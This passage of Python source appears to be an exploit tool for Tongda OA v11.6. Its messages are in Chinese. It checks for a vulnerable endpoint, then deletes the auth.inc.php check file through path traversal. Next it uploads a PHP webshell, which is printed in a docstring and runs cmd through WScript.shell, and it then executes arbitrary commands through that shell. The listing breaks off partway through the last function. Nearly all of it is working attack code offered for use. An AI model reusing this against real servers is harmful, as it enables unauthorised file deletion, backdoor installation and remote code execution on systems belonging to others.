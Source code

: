 ```python
def POC_1(target_url):
    check_url = target_url + "/module/appbuilder/assets/print.php"
    try:
        check_url_response  = requests.get(url = check_url)
        if check_url_response.status_code == 200:
            print("\033[32m[o] 存在 /module/appbuilder/assets/print.php 可能含有通达OA v11.6 任意文件删除&RCE漏洞\033[0m")
            input("\033[32m[o] 此漏洞会对真实环境造成影响，请在授权的情况下利用此漏洞，按下任意键继续..... \033[0m")
        else:
            print("\033[31m[x] 不存在 /module/appbuilder/assets/print.php 漏洞利用失败 \033[0m")
            sys.exit(0)
    except Exception as e:
            print("\033[31m[x] 请求失败，{} \033[0m".format(e))
            sys.exit(0)

def POC_2(target_url):
    unlink_url = target_url + "/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php"
    try:
        unlink_response = requests.get(url = unlink_url)
        if unlink_response.status_code == 200:
            print("\033[32m[o] 成功删除校验文件 auth.inc.php \033[0m")
        else:
            print("\033[31m[x] 删除校验文件 auth.inc.php 失败 \033[0m")
            sys.exit(0)
    except Exception as e:
            print("\033[31m[x] 请求失败，{} \033[0m".format(e))
            sys.exit(0)

def POC_3(target_url, payload_php):
    """
      (绕过的webshell)
      <?php
      $command=$_GET['peiqi'];
      $wsh = new COM('WScript.shell');
      $exec = $wsh->exec("cmd /c ".$command);
      $stdout = $exec->StdOut();
      $stroutput = $stdout->ReadAll();
      echo $stroutput;
      ?>
    """
    vuln_url = target_url + "/general/data_center/utils/upload.php?action=upload&filetype=peiqi&repkid=/.<>./.<>./.<>./"
    files = {'FILE1': ('peiqi.php', payload_php)}
    try:
        vuln_response = requests.post(url = vuln_url,files=files)
        if vuln_response.status_code == 200:
            print("\033[32m[o] 成功写入webshell文件: _peiqi.php \033[0m")
            print("\033[32m[o] webshell地址为: {}/_peiqi.php \033[0m".format(target_url))
        else:
            print("\033[31m[x] 写入webshell文件失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败，{} \033[0m".format(e))
        sys.exit(0)

def POC_4(target_url, cmd):
    cmd_url = target_url + "/_peiqi.php?peiqi={}".format(cmd)
    try:
        cmd_response = requests.get(url = cmd_url)
        if cmd_response.status_code == 200:
            print("\033[32m[o] 正在执行命令: {} \033[0m".format(cmd_url))
            print("\033[32m[o] 响应为: \n{} \033[0m".format(cmd_response.text))
```